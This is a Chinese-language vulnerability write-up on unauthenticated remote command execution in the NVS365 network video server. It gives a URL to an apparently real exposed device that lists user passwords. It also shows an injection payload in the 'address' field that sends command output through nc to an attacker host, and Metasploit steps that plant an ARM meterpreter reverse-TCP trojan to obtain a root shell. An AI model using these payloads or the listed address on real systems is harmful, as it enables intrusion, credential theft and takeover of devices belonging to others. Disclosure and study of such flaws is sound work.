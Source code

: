 # NVS365网络视频服务器后台任意命令执行漏洞

# 

# 该漏洞关联上一份漏洞 《NVS365网络视频服务器密码信息未授权访问漏洞》

其实也不用关联
后面发现不需要登陆也可以触发命令执行漏洞，只需要请求url和提交data就行

NVS365 是一种数字媒体服务器，允许通过局域网 (LAN)
或互联网分发视频和音频。

官网：

<http://www.nvs365.com/>

![](./images/media/image1.png){width="5.764583333333333in"
height="1.9277777777777778in"}

漏洞版本：

NVS-365-V01

![](./images/media/image2.png){width="5.764583333333333in"
height="3.66875in"}

该漏洞可任意触发任意命令，获取服务器shell等

[http://188.59.188.232:8085/?jcpcmd=userpasswd%20-act%20list](http://188.59.188.232:8085/?jcpcmd=userpasswd -act list)

![](./images/media/image3.png){width="5.760416666666667in"
height="0.9388888888888889in"}

在网络管理这块 可直接触发RCE漏洞

![](./images/media/image4.png){width="5.764583333333333in"
height="2.6305555555555555in"}

![](./images/media/image5.png){width="5.75in"
height="2.5805555555555557in"}

Wget:

![](./images/media/image6.png){width="5.761111111111111in"
height="3.029861111111111in"}

![](./images/media/image7.png){width="5.7659722222222225in"
height="3.1680555555555556in"}

![](./images/media/image8.png){width="5.756944444444445in"
height="3.079861111111111in"}

触发命令执行命令

Pwd:

result=%09%09&address=\|pwd\|nc ip 端口 &size=16

![lQLPJxSMXaaSNu5bzQVWsJRF7Rolhi8uA4XLQJdAZgA_1366_91](./images/media/image9.png){width="5.7625in"
height="0.3840277777777778in"}

Uname -a

![](./images/media/image10.png){width="5.761111111111111in"
height="3.9583333333333335in"}

Id: root权限

![](./images/media/image11.png){width="5.758333333333334in"
height="2.7375in"}

上传shell，metasploit生成linux ram木马

![](./images/media/image12.png){width="5.7625in"
height="3.7423611111111112in"}

Msf监听：

msf \> use exploit/multi/handler

msf \> set payload linux/armle/meterpreter/reverse_tcp

msf \> set LHOST xxx.xxx.xxx.xxx

msf \> set PORT 4466

msf \> run

![](./images/media/image13.png){width="5.763194444444444in"
height="5.479166666666667in"}

进入shell

![](./images/media/image14.png){width="2.8645833333333335in"
height="0.875in"}

未授权rce。。。

而后确认到不需要登陆也可以命令执行

![](./images/media/image15.png){width="5.768055555555556in"
height="1.96875in"}
